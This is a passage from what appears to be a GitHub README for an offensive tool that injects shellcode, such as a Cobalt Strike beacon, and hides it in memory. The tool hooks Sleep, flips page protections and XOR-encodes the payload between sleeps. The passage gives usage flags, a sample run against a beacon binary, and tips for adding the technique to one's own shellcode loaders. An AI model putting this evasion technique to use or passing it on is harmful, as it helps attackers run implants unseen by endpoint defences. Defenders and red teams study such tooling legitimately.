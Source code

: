 Use case:

```
Usage: ShellcodeFluctuation.exe <shellcode> <fluctuate>
<fluctuate>:
        -1 - Read shellcode but dont inject it. Run in an infinite loop.
        0 - Inject the shellcode but don't hook kernel32!Sleep and don't encrypt anything
        1 - Inject shellcode and start fluctuating its memory with standard PAGE_READWRITE.
        2 - Inject shellcode and start fluctuating its memory with ORCA666's PAGE_NOACCESS.
```

Where:
- `<shellcode>` is a path to the shellcode file
- `<fluctuate>` as described above, takes `-1`, `0` or `1`


Example run that spoofs beacon's thread call stack:

```
C:\> ShellcodeFluctuation.exe ..\..\tests\beacon64.bin 1

[.] Reading shellcode bytes...
[.] Hooking kernel32!Sleep...
[.] Injecting shellcode...
[+] Shellcode is now running. PID = 9456
[+] Fluctuation initialized.
    Shellcode resides at 0x000002210C091000 and occupies 176128 bytes. XOR32 key: 0x1e602f0d
[>] Flipped to RW. Encoding...

===> MySleep(5000)

[.] Decoding...
[>] Flipped to RX.
[>] Flipped to RW. Encoding...

===> MySleep(5000)
```

---

## Word of caution

If you plan on adding this functionality to your own shellcode loaders / toolings be sure to **AVOID** unhooking `kernel32.dll`.
An attempt to unhook `kernel32` will restore original `Sleep` functionality preventing our callback from being called.
If our callback is not called, the thread will be unable to spoof its own call stack by itself.

If that's what you want to have, than you might need to run another, watchdog thread, making sure that the Beacons thread will get spoofed whenever it sleeps.

If you're using Cobalt Strike and a BOF `unhook-bof` by Raphael's Mudge, be sure to check out my [Pull Request](https://github.com/Cobalt-Strike/unhook-bof/pull/1) that adds optional parameter to the BOF specifying libraries that should not be unhooked.

This way you can maintain your hooks in kernel32:
